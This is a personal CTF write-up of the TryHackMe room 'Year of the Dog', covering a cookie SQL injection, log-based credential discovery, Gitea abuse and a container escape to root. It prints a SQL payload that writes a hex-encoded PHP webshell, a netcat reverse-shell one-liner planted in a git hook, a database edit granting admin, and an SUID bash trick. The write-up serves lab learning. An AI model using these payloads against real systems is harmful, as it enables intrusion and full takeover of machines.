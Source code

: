 ```yaml
---
layout: post
title: CTF Log - Year of the Dog {THM}
description: A log of how I did the TryHackMe room Year of the Dog by Muirland Oracle
summary: A log of the THM room "Year of the Dog"
tags: ctf log
minute: 5
---
```

<br/>

> {{ page.description }}

<br/>

# Year of the Dog
## Request Header SQLi
A portscan reveals the only ports: 22, 80. 

The web server seems to have practically no content. The only thing I fuzzed that returned an interesting result was the `id` cookie parameter. Adding a `'` to it causes the website to error out, so it seems like some sort of injection is afoot.

The payload `' union select 1, @@version#` confirms that the cookie `id` parameter is vulnerable to SQL injection. 

I'm able to get a webshell on the server using `' into outfile '/var/www/html/wshell.php' fields terminated by 0x3c3f70687020706173737468727528245f4745545b2263225d293b203f3e#`

A breakdown of that payload:

- `into outfile` - MySQL syntax to place the selected object into a file
- `fields terminated by` - Allows you to choose what data to append to each field in the new file
- `3c3f70687020706173737468727528245f4745545b2263225d293b203f3e` a hex encoded PHP webshell: `<?php passthru($_GET["c"]); ?>`. The `0x` tells MySQL that the following data is hex and should be treated as such. This was done to bypass a web filter that flagged the characters `<>` as malicious.

Using that webshell, I'm able to execute a reverse shell and get a session on the machine as the user `www-data`. 

## Readable Authentication Log
To escalate to the user `dylan`, I found a file named `work_analysis` in that user's home directory. 

The file seemed to be a copy of a locally hosted web application's authentication logs. I grepped for `dylan` in that file and found an entry where the user had accidentally typed their password in the username field. 

Using this password, I'm able to get an SSH session as `dylan`. 

## Database Overwrite & Malicious Git Hook
A check on the active ports showed a Gitea server being served on `127.0.0.1:3000`. I used SSH with the port-forwarding parameter `-L 8090:127.0.0.1:3000` to send connections against my local machine's port `8090` to the address `127.0.0.1:3000` through the SSH connection. 

With this, I'm able to browse the Gitea website. I create a user `test`. 

I use `scp` as `dylan` to download the `Gitea.db` database file. Using `sqlite` I'm able to view the database and make edits to it. I find the user table and notice the `is_admin` parameter and edit that column to make my user an admin.

```
sqlite> select email, is_admin from user;
dylan@yearofthedog.thm|1
test@gmail.com|0

sqlite> update user set is_admin = 1 where email = 'test@gmail.com';
```

Refreshing the page now shows that my user `test` is an admin. 

With admin privileges I'm now able to use the githooks functionality. I create a repo and append this reverse shell code: `mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f` to one of the template scripts in the repo's githooks section. 

It took some trial and error to arrive at that reverse shell. The version of that shell available on PentestMonkey didn't function. Fortunately, a verbose stack trace was displayed in the terminal when the script failed, allowing me to refine the one-liner. 

![[error.png]]

I also did some online research on different types of bash/sh reverse shells.

## Abusing Container Privileges
Naturally, the reverse shell from the githook places me in a container. 

I'm easily able to get root access since `sudo` is available for all commands; I just `sudo -s`. 

Reading through the Gitea documentation and the `app.ini` file for the web server, the `/data` directory within the container maps to a directory on the host machine. 

I navigate to `/bin` with my session as `dylan` and use `python3 -m http.server` to host a web server on port `8000`. 

Within the container, I use `ip a` to see that the container is communicating through the virtual IP of `172.17.0.2`. The gateway address in this subnet would naturally route to the host machine, so I do `wget 172.17.0.1:8000/bash -O /data/bash` to download a copy of the bash binary. 

With `chmod +sx /data/bash` I make the binary executable by anyone and give it the SUID bit. Since I've downloaded it as `root` within the container, the SUID bit will make the binary run as `root`. 

With my session as `dylan` I do `./bash -p` to get a shell as `root`. Here is an explanation of what `-p` is for, taken from the bash man pages:

```
If the shell is started with the effective user (group) id not equal to the real user (group) id, and the **-p**option is not supplied, no startup files are read, shell functions are not inherited from the environment, the **SHELLOPTS**, **BASHOPTS**, **CDPATH**, and **GLOBIGNORE** variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the **-p** option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
```
